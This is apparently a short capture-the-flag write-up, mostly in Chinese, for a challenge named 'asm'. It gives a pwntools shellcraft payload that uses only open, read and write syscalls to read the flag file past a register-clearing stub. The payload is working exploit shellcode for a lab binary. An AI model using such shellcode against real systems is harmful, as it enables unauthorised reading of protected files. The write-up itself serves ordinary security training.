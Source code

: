 # asm


製作shellocde 只能使用 orw 去讀 flag

程式碼裡面有一段 stub，清空暫存器



```
payload = shellcraft.open(file_name,0) 
payload += shellcraft.read('rax', 'rsp', 100) 
payload += shellcraft.write(1, 'rsp', 100) 
payload += shellcraft.exit(0)
```

- open return fd in rax
- read (rax,buf,size)
- write (stdout,buf,size)
